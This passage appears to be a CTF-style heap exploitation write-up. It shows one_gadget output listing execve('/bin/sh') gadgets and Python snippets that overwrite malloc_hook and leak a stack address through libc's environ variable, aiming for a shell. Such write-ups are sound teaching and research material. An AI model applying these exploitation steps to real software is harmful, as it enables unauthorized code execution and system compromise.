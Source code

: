 Now we need to overwrite the value at that address with a pointer to a suitable function.
To achieve this a very nice tool is `one_gadget` that scans libc to find a one gadget ropchain that spawn the shell, among the returned gadget we need to use the one we can satisfy the requirement.
```
$ one_gadget libc.so.6
0x41602 execve("/bin/sh", rsp+0x2f, environ)
constraints:
  address rsp+0x40 is writable
  rax == NULL || {rax, "-c", r12, NULL} is a valid argv

0x41656 execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL || {[rsp+0x30], [rsp+0x38], [rsp+0x40], [rsp+0x48], ...} is a valid argv

0xdeec2 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL || {[rsp+0x70], [rsp+0x78], [rsp+0x80], [rsp+0x88], ...} is a valid argv
```

Now we need to break at the moment before calling the one gadget and see which of the 3 gadget we can apply.
We'll do this by writing a fake address that will cause segmentation fault when execution will be redirected to it:
```python
edit(6, 0x8, p64(malloc_hook))
alloc(0,0x90)
alloc(1,0x90)
edit(1, 0x8, b'B'*8)
```
gdb should complain about jumping at a BBBBBBBB address.
The problem is.. that none of the requirements can be met in such situation!
An attempt was also made with other hooks but none of them managed to solve the required constraints.

### The Stack Way

Out of ideas the only remaining option would be to try to build a succesful ropchain on the stack that could solve the constrians before calling the one gadget.

This would however require to first leak a stack address.
Luckily there is an `environ` variable in libc that points to the environment array on the stack.
We can examine its value in gdb using and view its address to compute its offset within libc
```
(gdb) p environ
(gdb) p &environ
(gdb) p <environ addr> - <libc base>
```

This allow us to find a refrence point within the stack which should be quite stable as the environment array gets build early in the program stack:
```python
# Environment offset found with the technique said before
environ_offset = 0x3b2098
environ_addr = libc.address + environ_offset

# Usual operations to perform an arbitrary read (just call view instead of edit)
edit(6, 0x8, p64(environ_addr))
alloc(0,0x90)
alloc(1,0x90)
stack_addr = view(1)
print(f'Stack address is: {hex(stack_addr)}')
```
